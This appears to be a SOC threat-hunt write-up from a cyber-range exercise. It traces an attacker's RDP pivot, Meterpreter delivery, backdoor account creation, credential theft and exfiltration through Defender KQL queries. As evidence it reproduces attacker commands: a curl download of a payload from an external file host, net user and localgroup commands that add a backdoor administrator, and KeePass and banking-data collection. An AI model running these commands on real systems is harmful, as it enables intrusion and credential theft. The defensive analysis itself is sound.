

# Threat Hunt — AZUKI BRIDGE TAKEOVER

**Analyst:** Juan Saravia 

**Investigation Type:** Threat Hunt / SOC Investigation

**Environment:** AZUKI (梓貿易株式会社) BRIDGE TAKEOVER — Cyber Range

**Platform:** Microsoft Defender for Endpoint / Advanced Hunting (KQL)

**Investigation Window:** 2025-11-24 – 2025-11-26 (UTC)

---

# 1. Investigation Overview

## Overview

This threat hunt continued the AZUKI investigation after the previously compromised system `azuki-sl` was used as a pivot point into a higher-value administrative workstation.

The investigation reconstructed the attacker’s activity across lateral movement, malware delivery, command-and-control, persistence, discovery, credential access, collection, staging, archiving, and exfiltration. Microsoft Defender Advanced Hunting telemetry was correlated across authentication, process, file, device, and network events to build the attack chain.

## Context

The investigation began with a known compromised AZUKI endpoint:

- **Previously compromised host:** `azuki-sl`
- **Known local IP:** `10.1.0.204`
- **Investigation window:** Nov. 24–26, 2025
- **Initial hypothesis:** The compromised workstation may have been used to move laterally into additional AZUKI systems.

The first objective was to determine whether `azuki-sl` was used as a source of remote access to another host. Subsequent findings followed the attacker’s activity after access to `azuki-adminpc` was established.

## Data Sources

The investigation used the following Microsoft Defender Advanced Hunting tables:

- `DeviceLogonEvents`
- `DeviceProcessEvents`
- `DeviceFileEvents`
- `DeviceNetworkEvents`
- `DeviceEvents`

## Investigation Scope

The objectives of the threat hunt were to:

- Confirm lateral movement from the previously compromised host.
- Identify the account and destination system used during lateral movement.
- Reconstruct malware delivery and command-and-control activity.
- Identify persistence and privilege changes.
- Document discovery and credential-access behavior.
- Identify local staging and automated collection activity.
- Determine what data was archived for exfiltration.
- Identify the exfiltration method, service, and destination IP.
- Map confirmed attacker behavior to MITRE ATT&CK.

---

# 2. Attack Chain / Investigation Map

## Attack Chain



## Attack Chain Summary

| Phase / Activity | Summary | Key Evidence |
| --- | --- | --- |
| Lateral Movement | `azuki-sl` was used as the source of successful RDP sessions into `azuki-adminpc`. | `10.1.0.204`, `yuki.tanaka`, `RemoteInteractive` |
| Malware Delivery | A password-protected archive masquerading as a Windows update was downloaded from external hosting. | `litter.catbox.moe`, `KB5044273-x64.7z` |
| C2 Establishment | The archive produced `meterpreter.exe`, followed by a Metasploit-style named pipe. | `meterpreter.exe`, `\Device\NamedPipe\msf-pipe-5902` |
| Persistence / Privilege | Base64-encoded PowerShell created `yuki.tanaka2` and added it to local Administrators. | `net user`, `net localgroup Administrators` |
| Discovery | Native Windows utilities were used to enumerate RDP sessions, domain trusts, and network connections. | `qwinsta`, `nltest`, `NETSTAT.EXE -ano` |
| Credential Discovery | The attacker searched for KeePass databases and password-related artifacts. | `*.kdbx`, `OLD-Passwords.lnk` |
| Staging / Collection | Sensitive files were copied into a Microsoft-looking staging directory. | `C:\ProgramData\Microsoft\Crypto\staging` |
| Archiving | Multiple collected datasets were packaged for transfer. | 8 unique archives |
| Credential Access | Additional tooling targeted Chrome login data and KeePass-related credentials. | `m.exe`, `dpapi::chrome`, `KeePass-Master-Password.txt` |
| Exfiltration | Archives were uploaded by `curl.exe` to `gofile.io`. | `store1.gofile.io`, `45.112.123.227` |

---

# 3. Investigation Timeline

All timestamps are UTC.

| Timestamp | System / Source | Activity | Key Evidence |
| --- | --- | --- | --- |
| `2025-11-25 04:06:52.757` | `azuki-adminpc` | Earliest confirmed RDP logon from the compromised source host | `RemoteIP=10.1.0.204`, `yuki.tanaka` |
| `2025-11-25 04:21:12` | `azuki-adminpc` | Malware archive downloaded | `curl.exe` → `KB5044273-x64.7z` |
| `2025-11-25 04:21:32` | `azuki-adminpc` | Password-protected archive extracted | `7z.exe` |
| `2025-11-25 04:24:35` | `azuki-adminpc` | Named pipe observed after C2 deployment | `\Device\NamedPipe\msf-pipe-5902` |
| `2025-11-25 04:39:16.3816536` | `azuki-adminpc` | Credential artifacts packaged | `credentials.tar.gz` |
| `2025-11-25 05:55:34` | `azuki-adminpc` | Additional credential theft archive downloaded | `m-temp.7z` |
| `2025-11-25 05:55:44` | `azuki-adminpc` | Credential theft archive extracted | `7z.exe` |
| `2025-11-25 05:55:54` | `azuki-adminpc` | Chrome saved-login data targeted | `m.exe ... dpapi::chrome ...` |
| `2025-11-25 05:56:42` | `azuki-adminpc` | Chrome-related data archived | `chrome-session-theft.tar.gz` |
| `2025-11-25 05:56:50` | `azuki-adminpc` | Archive uploaded to external hosting | `curl.exe` → `gofile.io` |

---

# 4. Executive Summary

The investigation confirmed that the previously compromised workstation `azuki-sl` (`10.1.0.204`) was used as a lateral-movement source to access `azuki-adminpc` through successful Remote Desktop sessions using the compromised `yuki.tanaka` account.

After gaining access to the administrative workstation, the attacker downloaded a password-protected archive from `litter.catbox.moe`, extracted a Meterpreter payload, and established internal command-and-control behavior through a Metasploit-style named pipe. The attacker then created a lookalike local account, `yuki.tanaka2`, and added it to the local Administrators group to establish privileged backup access.

The attacker performed extensive discovery using native Windows utilities including `qwinsta`, `nltest`, and `netstat`, then searched for credential-related files such as KeePass databases and password shortcuts. Sensitive information was collected into `C:\ProgramData\Microsoft\Crypto\staging`, copied in bulk with `Robocopy`, and packaged into multiple archives.

Additional credential theft tooling was later downloaded and used to target Chrome saved-login data through Windows DPAPI. Collected archives were uploaded to `gofile.io` using `curl.exe`, with network telemetry identifying `45.112.123.227` as the external destination.

Overall, the investigation confirmed successful lateral movement, command-and-control, privileged persistence, credential access, sensitive-data collection, local staging, and exfiltration from `azuki-adminpc`.

## Key Findings

| Finding | Summary |
| --- | --- |
| Lateral movement confirmed | `azuki-sl` (`10.1.0.204`) successfully accessed `azuki-adminpc` through RDP using `yuki.tanaka`. |
| C2 implant deployed | `meterpreter.exe` was extracted from a staged archive and followed by a Metasploit-style named pipe. |
| Privileged backdoor account created | `yuki.tanaka2` was created and added to local Administrators through Base64-obfuscated PowerShell. |
| Discovery activity confirmed | `qwinsta`, `nltest`, and `netstat` were used to map sessions, domain trusts, and active connections. |
| Credential-focused discovery confirmed | The attacker searched for `.kdbx` files and identified `OLD-Passwords.lnk`. |
| Sensitive data staged and archived | Banking and credential-related data was consolidated under `C:\ProgramData\Microsoft\Crypto\staging` and packaged into 8 archives. |
| Browser credential theft confirmed | `m.exe` targeted Chrome `Login Data` with `dpapi::chrome`. |
| Exfiltration confirmed | Archives were uploaded to `gofile.io`; the external destination IP was `45.112.123.227`. |

## Indicators / Notable Artifacts

| Type | Indicator / Artifact | Context |
| --- | --- | --- |
| Host | `azuki-sl` | Previously compromised source system used for lateral movement |
| Internal IP | `10.1.0.204` | Source IP of successful RDP sessions |
| Host | `azuki-adminpc` | Administrative workstation compromised during lateral movement |
| Account | `yuki.tanaka` | Compromised account reused for lateral movement and attacker activity |
| Account | `yuki.tanaka2` | Local privileged backdoor account created by the attacker |
| Domain | `litter.catbox.moe` | External malware/tool hosting service |
| File | `KB5044273-x64.7z` | Initial staged malware archive |
| File | `meterpreter.exe` | C2 implant extracted from the archive |
| Named Pipe | `\Device\NamedPipe\msf-pipe-5902` | Metasploit-style pipe observed after C2 deployment |
| Directory | `C:\ProgramData\Microsoft\Crypto\staging` | Local collection/staging directory |
| File | `Azuki-Passwords.kdbx` | KeePass password database targeted by the attacker |
| File | `KeePass-Master-Password.txt` | Master-password artifact selected for collection |
| File | `OLD-Passwords.lnk` | Password-related Windows shortcut artifact |
| File | `m-temp.7z` | Additional credential theft tool archive |
| File | `chrome-session-theft.tar.gz` | Chrome-related collection archive |
| Domain | `gofile.io` | Cloud file-sharing service used for exfiltration |
| External IP | `45.112.123.227` | External server associated with the exfiltration connection |

---

# 5. Investigation Findings

## Findings 1–3 — RDP Lateral Movement to an Administrative Workstation

### Objective
Determine whether the previously compromised `azuki-sl` system was used to move laterally, which account was reused, and which destination system was accessed.

### Finding Summary
Successful `RemoteInteractive` logons showed `10.1.0.204`, the known local IP of `azuki-sl`, connecting to `azuki-adminpc` using the compromised `yuki.tanaka` account.

### Investigation Approach
`DeviceLogonEvents` was filtered for Remote Desktop-style logons where the source IP matched the known IP of `azuki-sl`. The same events exposed the account and destination system.

### Query / Search Used

**KQL Name: `RDP Lateral Movement from azuki-sl`**

```kusto
DeviceLogonEvents
| where TimeGenerated between (datetime(2025-11-24) .. datetime(2025-11-26))
| where RemoteIP == "10.1.0.204"
| where LogonType == "RemoteInteractive"
| project TimeGenerated, AccountName, DeviceName, ActionType, RemoteIP, LogonType
| order by TimeGenerated asc
```

### Evidence


```text
Earliest Confirmed Event: 2025-11-25 04:06:52.757 UTC
Source Host: azuki-sl
Source IP: 10.1.0.204
Account: yuki.tanaka
Destination: azuki-adminpc
Logon Type: RemoteInteractive
Action: LogonSuccess
```

### Analysis
The source IP matched the previously compromised `azuki-sl` workstation, confirming it was used as a pivot point. The same events showed reuse of the compromised `yuki.tanaka` account and successful access to `azuki-adminpc`, an administrative workstation.

### Security Impact
Successful RDP access to an administrative workstation expanded the attacker’s reach into a higher-value system and increased the risk of privileged credential exposure and further lateral movement.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Lateral Movement | Remote Services: Remote Desktop Protocol | T1021.001 |

### Confirmed Findings
`10.1.0.204` — source IP associated with `azuki-sl`  
`yuki.tanaka` — compromised account reused for lateral movement  
`azuki-adminpc` — destination administrative workstation

---

## Finding 4 — External Malware Hosting Service Identified

### Objective
Identify the external service used to host the attacker’s staged malware.

### Finding Summary
Network telemetry showed `curl.exe` contacting `litter.catbox.moe` immediately before the malware archive was written to disk.

### Investigation Approach
`DeviceNetworkEvents` was reviewed for external URLs contacted by command-line utilities during the malware delivery phase.

### Query / Search Used

**KQL Name: `External Malware Hosting Hunt`**

```kusto
DeviceNetworkEvents
| where TimeGenerated between (datetime(2025-11-25) .. datetime(2025-11-26))
| where DeviceName == "azuki-adminpc"
| where isnotempty(RemoteUrl)
| where InitiatingProcessFileName in~ ("powershell.exe", "cmd.exe", "curl.exe")
| project TimeGenerated, RemoteUrl, RemoteIP, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence


```text
Remote Service: litter.catbox.moe
Downloaded File: C:\Windows\Temp\cache\KB5044273-x64.7z
Initiating Process: curl.exe
```

### Analysis
The attacker used a public file-hosting service to stage the archive before retrieving it from the compromised administrative workstation.

### Security Impact
External file-hosting services can provide attackers with disposable infrastructure and make malicious downloads resemble ordinary web traffic.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Resource Development | Stage Capabilities: Upload Malware | T1608.001 |

### Confirmed Finding
`litter.catbox.moe`

---

## Finding 5 — Malware Archive Downloaded with curl

### Objective
Identify the command used to retrieve the staged malware archive.

### Finding Summary
`curl.exe` downloaded a `.7z` archive from `litter.catbox.moe` and saved it with a Windows KB-style filename.

### Investigation Approach
`DeviceProcessEvents` was searched for common download utilities and command lines referencing the observed archive.

### Query / Search Used

**KQL Name: `Initial Malware Download`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-11-25) .. datetime(2025-11-26))
| where DeviceName == "azuki-adminpc"
| where FileName in~ ("curl.exe", "powershell.exe", "certutil.exe", "bitsadmin.exe")
| where ProcessCommandLine contains "KB5044273"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine
| order by TimeGenerated asc
```

### Evidence


```text
"curl.exe" -L -o C:\Windows\Temp\cache\KB5044273-x64.7z https://litter.catbox.moe/gfdb9v.7z
```

### Command Context
`curl.exe` is a legitimate command-line data-transfer utility. In this command, `-L` follows redirects and `-o` specifies the local output filename. The attacker used it to download the archive directly from the external hosting service.

### Analysis
The Windows KB-style filename helped the archive appear more legitimate while it was stored under `C:\Windows\Temp\cache`.

### Security Impact
The command transferred attacker tooling directly into the compromised workstation and enabled the next stage of execution.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Command and Control | Ingress Tool Transfer | T1105 |

### Confirmed Finding
`"curl.exe" -L -o C:\Windows\Temp\cache\KB5044273-x64.7z https://litter.catbox.moe/gfdb9v.7z`

---

## Finding 6 — Password-Protected Archive Extracted

### Objective
Determine how the downloaded archive was unpacked.

### Finding Summary
`7z.exe` extracted the downloaded archive into the same cache directory using a password parameter.

### Investigation Approach
The hunt pivoted from the downloaded `.7z` archive to executions of `7z.exe` on `azuki-adminpc`.

### Query / Search Used

**KQL Name: `Password-Protected Archive Extraction`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-11-25) .. datetime(2025-11-26))
| where DeviceName == "azuki-adminpc"
| where AccountName == "yuki.tanaka"
| where FileName =~ "7z.exe"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence


```text
"7z.exe" x C:\Windows\Temp\cache\KB5044273-x64.7z -p******** -oC:\Windows\Temp\cache\ -y
```

### Command Context
`7z.exe` is a legitimate archive utility. Here, `x` extracts the archive, `-p` supplies the password, `-o` defines the output directory, and `-y` automatically answers yes to prompts. Password-protected archives can reduce the effectiveness of simple content inspection before extraction.

### Analysis
The archive was unpacked immediately after download, exposing the tools that supported the attacker’s next actions.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Defense Evasion | Deobfuscate/Decode Files or Information | T1140 |

### Confirmed Finding
`"7z.exe" x C:\Windows\Temp\cache\KB5044273-x64.7z -p******** -oC:\Windows\Temp\cache\ -y`

---

## Finding 7 — C2 Beacon Extracted from the Archive

### Objective
Identify the command-and-control implant delivered inside the staged archive.

### Finding Summary
File telemetry showed `7z.exe` creating `meterpreter.exe` in the extraction directory.

### Investigation Approach
The hunt followed the extraction event into `DeviceFileEvents` and reviewed executable files created by `7z.exe` in the cache directory.

### Query / Search Used

**KQL Name: `Extracted C2 Payload Hunt`**

```kusto
DeviceFileEvents
| where TimeGenerated between (datetime(2025-11-25T04:21:32Z) .. datetime(2025-11-25T04:23:00Z))
| where DeviceName == "azuki-adminpc"
| where ActionType == "FileCreated"
| where FolderPath startswith @"C:\Windows\Temp\cache"
| where InitiatingProcessFileName =~ "7z.exe"
| project TimeGenerated, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence


```text
File: meterpreter.exe
Directory: C:\Windows\Temp\cache
Created By: 7z.exe
```

### Artifact Context
Meterpreter is an offensive-security payload commonly associated with the Metasploit Framework. It provides an interactive post-exploitation channel that can execute commands and support additional attacker activity.

### Analysis
The C2 implant was delivered as part of the password-protected archive rather than downloaded as a standalone executable.

### Security Impact
A functioning post-exploitation implant provides the attacker with remote control and a platform for discovery, credential access, and follow-on actions.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Execution | Command and Scripting Interpreter | T1059 |

### Confirmed Finding
`meterpreter.exe`

---

## Finding 8 — Named Pipe Used for Internal C2 Communication

### Objective
Identify the named pipe associated with the post-exploitation activity.

### Finding Summary
A named-pipe event recorded shortly after the C2 deployment exposed a Metasploit-style pipe name.

### Investigation Approach
`DeviceEvents` was filtered for named-pipe activity and the `AdditionalFields` JSON was parsed to expose `PipeName`.

### Query / Search Used

**KQL Name: `Named Pipe C2 Hunt`**

```kusto
DeviceEvents
| where TimeGenerated between (datetime(2025-11-25T04:21:30Z) .. datetime(2025-11-25T04:30:00Z))
| where DeviceName == "azuki-adminpc"
| where ActionType contains "NamedPipe"
| extend AF = parse_json(AdditionalFields)
| extend PipeName = tostring(AF.PipeName)
| project TimeGenerated, ActionType, DeviceName, PipeName, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence


```text
Timestamp: 2025-11-25 04:24:35 UTC
PipeName: \Device\NamedPipe\msf-pipe-5902
```

### Artifact Context
Named pipes are Windows inter-process communication channels. Legitimate applications use them frequently, but offensive frameworks can also use them so malicious components can exchange commands and data locally without each process opening a separate external connection. The `msf` naming pattern and timing immediately after `meterpreter.exe` strengthened the correlation with Metasploit-related activity.

### Analysis
The pipe provided behavioral evidence that the extracted C2 tooling was actively establishing local communication on the compromised host.

### Security Impact
Named-pipe activity can support stealthier internal communication between malicious processes and provide a useful behavioral IOC for detection and hunting.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Command and Control | Internal Proxy | T1090.001 |

### Confirmed Finding
`\Device\NamedPipe\msf-pipe-5902`

---

## Findings 9–11 — Obfuscated Creation of a Privileged Backdoor Account

### Objective
Determine what the Base64-encoded PowerShell commands were doing and how the attacker established backup administrative access.

### Finding Summary
Base64-encoded PowerShell concealed commands that created `yuki.tanaka2` and added the account to the local Administrators group.

### Investigation Approach
`DeviceProcessEvents` was searched for encoded PowerShell activity. The Base64 payloads were extracted and decoded in CyberChef using `From Base64` → `Decode text (UTF-16LE)`.

### Query / Search Used

**KQL Name: `Encoded PowerShell Account Persistence`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-11-25) .. datetime(2025-11-26))
| where DeviceName == "azuki-adminpc"
| where FileName =~ "powershell.exe"
| where ProcessCommandLine has_any ("-EncodedCommand", "-enc ", "FromBase64String", "IEX", "Invoke-Expression")
| project TimeGenerated, AccountName, FileName, ProcessCommandLine, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence


```text
net user yuki.tanaka2 B@ckd00r2024! /add
```


```text
net localgroup Administrators yuki.tanaka2 /add
```


### Command Context
PowerShell `-EncodedCommand` commonly uses Base64-encoded UTF-16LE text. Base64 is not encryption; it obscures readable command strings from simple inspection and basic string matching. The first decoded command created a local account, and the second added that account to the local Administrators group.

### Analysis
The attacker created a lookalike account resembling the legitimate `yuki.tanaka` identity and then granted it administrative privileges. The sequence established a separate privileged access path if the original compromised account or other persistence mechanisms were removed.

### Security Impact
A new privileged local account increases persistence and allows continued administrative control of the endpoint.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Defense Evasion | Obfuscated Files or Information | T1027 |
| Persistence | Create Account: Local Account | T1136.001 |

### Confirmed Findings
`yuki.tanaka2`  
`net user yuki.tanaka2 B@ckd00r2024! /add`  
`net localgroup Administrators yuki.tanaka2 /add`

---

## Finding 12 — RDP Session Enumeration

### Objective
Identify the command used to enumerate active Remote Desktop / Terminal Services sessions.

### Finding Summary
The attacker executed `qwinsta` on an AZUKI system to inspect active terminal sessions.

### Investigation Approach
`DeviceProcessEvents` was searched across AZUKI hosts for `qwinsta.exe` and matching command-line activity.

### Query / Search Used

**KQL Name: `RDP Session Enumeration`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-11-24) .. datetime(2025-11-26))
| where DeviceName contains "azuki"
| where FileName =~ "qwinsta.exe" or ProcessCommandLine has "qwinsta"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence


### Command Context
`qwinsta` is a built-in Windows command that displays Terminal Services / Remote Desktop sessions, including session names, users, IDs, and states. Administrators use it for session management; attackers can use the same information to identify active users or potentially valuable sessions.

### Analysis
The attacker used a native Windows utility for session discovery rather than introducing a separate reconnaissance tool.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Discovery | System Owner/User Discovery | T1033 |

### Confirmed Finding
`qwinsta`

---

## Finding 13 — Domain Trust Enumeration

### Objective
Identify the command used to enumerate domain trust relationships.

### Finding Summary
`nltest.exe` was executed with parameters that requested all available domain trust relationships.

### Investigation Approach
`DeviceProcessEvents` was searched for `nltest.exe` executions and command lines referencing domain trust discovery.

### Query / Search Used

**KQL Name: `Domain Trust Enumeration`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-11-24) .. datetime(2025-11-26))
| where DeviceName contains "azuki"
| where FileName =~ "nltest.exe" or ProcessCommandLine has "nltest"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```

### Evidence


`"nltest.exe" /domain_trusts /all_trusts`

### Command / Technique Context
A domain trust is a relationship that can allow identities from one Windows domain to access resources in another, depending on the trust configuration. `nltest.exe` is a legitimate Windows administration utility: `/domain_trusts` lists trust relationships and `/all_trusts` expands the output to include all available trust types. Attackers can use this information to map connected domains and possible lateral-movement paths.

### Analysis
The attacker used native Windows functionality to map broader Active Directory relationships from the compromised environment.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Discovery | Domain Trust Discovery | T1482 |

### Confirmed Finding
`"nltest.exe" /domain_trusts /all_trusts`

---

## Finding 14 — Network Connection Enumeration

### Objective
Identify the command used to enumerate active network connections and determine which processes owned those connections.

### Finding Summary
A broader hunt for native Windows reconnaissance utilities identified `NETSTAT.EXE -ano`.

### Investigation Approach
The query intentionally searched for several common network-enumeration commands before narrowing the result to the command that matched the observed behavior.

### Query / Search Used

**KQL Name: `Network Reconnaissance Sweep`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-11-25T04:09:25.4429368Z) .. datetime(2025-11-26))
| where DeviceName contains "azuki-adminpc"
| where AccountName !in~ ("system", "root", "network service")
| where ProcessCommandLine has_any ("arp -a", "net view", "netstat", "tracert", "pathping", "route print", "nslookup", "nltest")
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```

### Evidence


`"NETSTAT.EXE" -ano`

### Command Context
`netstat` is a built-in Windows networking utility used to inspect active connections and listening ports. In `-ano`, `-a` shows active connections/listeners, `-n` keeps addresses and ports numeric, and `-o` shows the process ID that owns each connection.

### Analysis
The attacker used `netstat` to understand the compromised host’s network relationships and tie active connections to specific processes.

### Security Impact
Network discovery can reveal internal services, active sessions, and systems that may become targets for additional movement.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Discovery | System Network Connections Discovery | T1049 |

### Confirmed Finding
`"NETSTAT.EXE" -ano`

---

## Finding 15 — Password Database Search

### Objective
Identify how the attacker searched the compromised system for encrypted password databases.

### Finding Summary
The attacker recursively searched user directories for `.kdbx` files, the database format commonly used by KeePass.

### Investigation Approach
`DeviceProcessEvents` was searched for common recursive file-enumeration methods and credential-related file extensions.

### Query / Search Used

**KQL Name: `Credential File Search`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-11-25T04:10:07.805432Z) .. datetime(2025-11-26))
| where DeviceName == "azuki-adminpc"
| where ProcessCommandLine has_any ("where /r", "dir /s", "Get-ChildItem", "forfiles", "-Recurse")
| where ProcessCommandLine contains ".kdbx"
| project TimeGenerated, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence


`"cmd.exe" /c where /r C:\Users *.kdbx`

### Command / Artifact Context
A `.kdbx` file is an encrypted KeePass password database that may contain usernames, passwords, URLs, secure notes, and other credentials. `cmd.exe /c` runs the command and exits, `where /r C:\Users` recursively searches user directories, and `*.kdbx` targets KeePass database files.

### Analysis
The attacker deliberately searched for password-manager databases that could contain credentials for multiple systems and accounts.

### Security Impact
Locating a password database creates a high-value credential target that may later be copied, exfiltrated, or attacked offline.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Credential Access | Unsecured Credentials: Credentials In Files | T1552.001 |

### Confirmed Finding
`"cmd.exe" /c where /r C:\Users *.kdbx`

---

## Finding 16 — Password-Related Shortcut Identified

### Objective
Identify text or shortcut artifacts that could expose or reference stored credentials.

### Finding Summary
File telemetry surfaced `OLD-Passwords.lnk`, a Windows shortcut whose name strongly suggested a path to password-related material.

### Investigation Approach
`DeviceFileEvents` was filtered for `.lnk` and `.txt` files associated with the compromised user.

### Query / Search Used

**KQL Name: `Password-Related File Artifacts`**

```kusto
DeviceFileEvents
| where TimeGenerated between (datetime(2025-11-25T04:13:45.8171756Z) .. datetime(2025-11-26))
| where DeviceName == "azuki-adminpc"
| where InitiatingProcessAccountName == "yuki.tanaka"
| where FileName has_any ("lnk", "txt")
| project TimeGenerated, DeviceName, InitiatingProcessAccountName, FileName, FolderPath, InitiatingProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```

### Evidence


`OLD-Passwords.lnk`

### Artifact Context
A `.lnk` file is a Windows shortcut. It normally points to another file, folder, application, or location rather than containing the target content itself. The filename `OLD-Passwords.lnk` made the shortcut significant because it could direct an attacker toward stored password material.

### Analysis
The artifact continued the credential-focused discovery activity that began with the KeePass database search.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Credential Access | Unsecured Credentials: Credentials In Files | T1552.001 |

### Confirmed Finding
`OLD-Passwords.lnk`

---

## Finding 17 — Local Data Staging Directory Identified

### Objective
Identify the local directory used to organize collected data before exfiltration.

### Finding Summary
Sensitive files were written beneath `C:\ProgramData\Microsoft\Crypto\staging`, a path designed to resemble legitimate Microsoft system data.

### Investigation Approach
`DeviceFileEvents` was reviewed for activity under common Windows and ProgramData locations initiated by the compromised user.

### Query / Search Used

**KQL Name: `Local Staging Directory Hunt`**

```kusto
DeviceFileEvents
| where TimeGenerated between (datetime(2025-11-25T04:13:45Z) .. datetime(2025-11-26))
| where InitiatingProcessAccountName == "yuki.tanaka"
| where DeviceName == "azuki-adminpc"
| where FolderPath startswith @"C:\Windows\" or FolderPath startswith @"C:\ProgramData\"
| project TimeGenerated, ActionType, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence


`C:\ProgramData\Microsoft\Crypto\staging`

Banking statement files were observed beneath subdirectories of the staging path.

### Artifact Context
Data staging is the practice of collecting and organizing targeted information in one local location before it is archived or transferred. Placing the directory beneath `C:\ProgramData\Microsoft\Crypto\` helped it resemble legitimate Microsoft-related data.

### Analysis
The attacker created an organized collection area rather than exfiltrating each file immediately after discovery.

### Security Impact
Local staging indicates preparation for bulk data theft and provides a high-value forensic path for identifying the scope of collected information.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Collection | Data Staged: Local Data Staging | T1074.001 |

### Confirmed Finding
`C:\ProgramData\Microsoft\Crypto\staging`

---

## Finding 18 — Automated Collection of Banking Documents

### Objective
Identify the command used to move banking documents into the staging directory.

### Finding Summary
`Robocopy.exe` recursively copied the user’s Banking directory into the attacker’s staging location.

### Investigation Approach
File events were searched for common Windows copy utilities and scripting methods associated with the compromised account.

### Query / Search Used

**KQL Name: `Automated Banking Collection`**

```kusto
DeviceFileEvents
| where TimeGenerated between (datetime(2025-11-25T04:37:03.3036917Z) .. datetime(2025-11-26))
| where DeviceName contains "azuki-adminpc"
| where InitiatingProcessAccountName == "yuki.tanaka"
| where InitiatingProcessCommandLine has_any ("xcopy", "robocopy", "Copy-Item", "cpi ") or FileName in~ ("xcopy.exe", "robocopy.exe")
| project TimeGenerated, DeviceName, InitiatingProcessAccountName, FileName, InitiatingProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```

### Evidence
`"Robocopy.exe" C:\Users\yuki.tanaka\Documents\Banking C:\ProgramData\Microsoft\Crypto\staging\Banking /E /R:1 /W:1 /NP`


### Command Context
`Robocopy` is a built-in Windows utility designed for reliable bulk file copying. `/E` copies all subdirectories, `/R:1` retries failed copies once, `/W:1` waits one second between retries, and `/NP` suppresses progress percentage output.

### Analysis
This finding directly followed the staging-directory discovery and showed how sensitive banking data was moved into that location.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Collection | Automated Collection | T1119 |

### Confirmed Finding
`"Robocopy.exe" C:\Users\yuki.tanaka\Documents\Banking C:\ProgramData\Microsoft\Crypto\staging\Banking /E /R:1 /W:1 /NP`

---

## Finding 19 — Archives Prepared for Exfiltration

### Objective
Determine how many unique archives were created in the staging directory during collection.

### Finding Summary
The staging directory contained 8 unique archive files associated with collected data.

### Investigation Approach
`DeviceFileEvents` was filtered for archive files created beneath the staging path while preserving the initiating process and command line for context.

### Query / Search Used

**KQL Name: `Staged Archive Creation`**

```kusto
DeviceFileEvents
| where TimeGenerated between (datetime(2025-11-25) .. datetime(2025-11-26))
| where DeviceName == "azuki-adminpc"
| where InitiatingProcessAccountName == "yuki.tanaka"
| where ActionType == "FileCreated"
| where FolderPath startswith @"C:\ProgramData\Microsoft\Crypto\staging"
| where FileName endswith ".tar.gz" or FileName endswith ".7z" or FileName endswith ".zip"
| project TimeGenerated, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence
`8 unique archive filenames were identified in the staging directory.`


Observed archive names included credential-, banking-, tax-, contract-, and browser-related data.

### Command / Artifact Context
Archive formats such as `.zip`, `.7z`, and `.tar.gz` allow attackers to combine many collected files into fewer objects before transfer. `tar.exe` was observed creating several `.tar.gz` archives; `-c` creates the archive, `-z` applies gzip compression, and `-f` specifies the output filename.

### Analysis
The attacker organized the staged data into multiple archives, simplifying the next exfiltration phase.

### Security Impact
The number and naming of the archives indicated broad collection across multiple sensitive data categories.

### MITRE ATT&CK Mapping

